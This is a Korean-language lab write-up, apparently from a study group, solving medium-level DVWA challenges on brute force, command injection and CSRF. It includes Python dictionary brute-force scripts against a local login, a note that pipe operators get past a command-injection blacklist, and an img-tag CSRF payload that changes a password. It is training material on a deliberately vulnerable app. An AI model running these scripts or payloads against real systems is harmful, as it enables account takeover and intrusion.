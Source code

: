```yaml
---
layout: default
title: Day36
nav_order: 1

parent: Hacking Project - W6
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
![image-20220523152746550](../img/image-20220523152746550.png)



중간 난이도로 설정한 뒤 시작!

# > DVWA: Brute Force	

## 삽질

```php
// Login failed
sleep( 2 );
echo "<pre><br />Username and/or password incorrect.</pre>"; 
```
low 레벨에서 없었던 코드가 한줄 추가되었다. 로그인 실패 시 `sleep(2);` 이다. 해당 시간 지연으로 인해 브루트 포싱에 시간이 걸릴 것으로 생각된다.

Hydra 툴을 이용하여 사전 공격부터 천천히 시도해본다면 가능할 것 같다. 따로 무한한 입력에 제한을 두지 않았기 때문이다. 하지만 이번에는 직접 파이썬 코드를 이용하여 시간 지연이 발생될 경우 다음 쿼리를 날리도록은 할 수 없을까? Timeout을 이용해서 한번 작성해보자.

```python
import requests
cookie = {'security': 'medium','PHPSESSID':'nku81sajta924jmrjmtv53f9dh'}
fp = open("./dictionary.txt","r")

dictionary_list = [x.strip() for x in fp.readlines()]
for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'
	
	try:
		response = requests.get(url=url,timeout=0.2,cookies=cookie)
	except requests.exceptions.Timeout as TT:
		print(f'[x] Failed... {upw}')
	else:
		print(f"[o] SUCCESS... {upw}")
		break

```

여러 구글링을 통해서 작성해보았는데 일단 로그인이 필요한 문제이므로 `requests.get()`을 이용할 때 쿠키 값을 전달했다. 그리고 `try...except`를 이용해서 요청을 보낼 때 제한한 타임 아웃이 발생할 경우에는 빠르게 넘어가도록 하였다. 그리하여 0.2초 내에 반응이 없으면 그냥 넘어가는 것이다.

그러나 실제 저 코드를 돌렸을 때 정답이 되는 비밀번호를 그냥 지나쳐버렸다. 하나하나 테스트할 경우에는 정확하게 찾아내었는데도 말이다. 그래서 시간을 들여 분석하여 내 방식대로 이해한 바는 다음과 같다.

1. 현재 로그인된 세션에서 요청을 한다.
2. 보낸 요청에 대한 응답을 기다린다.
3. 기다리는 동안에 다른 요청을 못보낸다.

결국에는 다시 2초를 기다려야만 하는 셈이다. 그래서 떠오른 아이디어는 세션 별로 걸릴 것이라는 나의 뇌피셜에 코드를 더 얹기로 했다. 타임아웃이 발생하는 순간 현재 로그인된 세션을 끊고 다시 로그인을 시도하여 요청하는 것이다. 가능할지 모르겠다.

<br>

문제를 풀다가 새로운 것만 배우고 결과적으로는 실패했다.
```python
import requests
params={
	'username':'admin',
	'password':'1234',
	'Login':'Login'
}

login_url = "http://localhost/DVWA/login.php/"

fp = open("./dictionary.txt","r")
dictionary_list = [x.strip() for x in fp.readlines()]

for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'
	s = requests.session()
	res = s.post(login_url,data=params)
	cookie = {'PHPSESSID': res.cookies['PHPSESSID'],'security':'medium'}

	try:
		response = requests.get(url=url,timeout=0.5,cookies=cookie)
	except requests.exceptions.Timeout as TT:
		print(f'[x] Failed... {upw}')
		s.close()
	else:
		print(f"[o] SUCCESS... {upw}")
		break
```

requests의 `session()`을 이용하여 로그인 진행 후 얻은 쿠키 값으로 요청에 전달하려 했으나 실패했다. 2시간 정도 이해할 수 없는 상황에 뇌정지가 왔었는데 아래 메세지를 본 후에 이 방법을 추후 탐구하기로 마음 먹었다.

![image-20220523174159245](img/image-20220523174159245.png)

디버깅 용으로 `print(res.text)`를 넣어봤었는데 해당 메세지가 있었는데 CSRF를 막아놨다. 좀 더 CSRF에 대해서 이해한 다음에 뚫어봐야 겠다(?). 나름 request 모듈과 except 활용법을 알게 되어 의미있었다.


<br>

## Write up

시간이 걸리기는 하지만 가능은 하다...

```python
import requests
cookie = {'security': 'medium','PHPSESSID':'jdl0o7bvnkfuvrris8kg87b3ff'}
fp = open("./dictionary.txt","r")

dictionary_list = [x.strip() for x in fp.readlines()]
for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'

	
	response = requests.get(url=url,cookies=cookie)
	if "incorrect" not in response.text:
		print(f"[o] SUCCESS... {upw}")
		break
	else: 
		print(f'[x] Failed... {upw}')
```

![image-20220523175807402](../img/image-20220523175807402.png)

<br><br><br>

-----

# > DVWA: Command Injection 

## 삽질

```php
// Set blacklist
$substitutions = array(
	'&&' => '',
	';'  => '',
); 
```

`&&` 기호와 `;` 기호가 막혀있지만 나는 `|` 기호와 `||` 기호를 알고 있다.

<br>

## Write up



![image-20220523180016274](../img/image-20220523180016274.png)

![image-20220523180237783](../img/image-20220523180237783.png)

<br><br><br>

-----

# > DVWA : CSRF

## 삽질

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
...
else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    } 
```
medium에서는 위 코드가 추가되었는데 `stripos()`는 문자열을 찾는 함수인데, 이를 통해 참조하는 HTTP이름이 서버 네임와 같은지 판별하는 듯 하다. 정확하게 어떤 부분을 보고 판단하는 것인지 패킷을 통해 알아보아야 겠다.

![image-20220529142507811](img/image-20220529142507811.png)

`HTTP_REFERER`은 패킷의 `Referer` 부분에 해당하고 해당 부분은 지금 현재 접속되어 있는 페이지의 정보인 듯하다. 패킷을 전송할 때 해당 값에 서버 주솟값 정보를 포함하고 있으면 문제가 없다는 듯하다. 그리하여 XSS_S 에서 파일을 올린 뒤에 어떤 식으로 패킷이 잡히는지 확인해보았다.

![image-20220529150522926](img/image-20220529150522926.png)

Referer의 서버 정보가 포함되는 것을 보니 비밀번호 변경이 가능하다는 것을 알 수 있다. 

그런데 low레벨과 차이가 없는 것인지 생각을 해보면 지금 문제를 풀고 있는 환경이 로컬호스트이기에 그런 것이지 만약 외부에서 접속을 한다고 생각해보면 불가능한 상황이다. 그렇다면 해당 경우에는 어떻게 공격을 진행할 수 있을까?

`stripos` 함수는 값1에 값2 문자열이 포함되어 있기만 하면 true를 반환하기 때문에 해당 문자열이 포함되도록만 하면 된다. 따라서 공격 대상의 서버주소명을 포함한 제목으로 스크립트를 작성해 업로드할 수 있다면 공격을 할 수 있겠다.



<br>

## Write up

로컬참조
{: .text-green-000 }

medium 레벨에서 Stored XSS를 이용하기 위해서는 name 부분에 코드를 입력해야 하는데 또 name 부분에는 길이 제한이 걸려있다. 그래서 임시방편으로 low를 이용하여 공격을 시도해보면 low 단계과 다를 바없이 공격 가능하다.

![image-20220529144113015](img/image-20220529144113015.png)

```html
<img src="http://192.168.154.128/DVWA/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
```

<br>

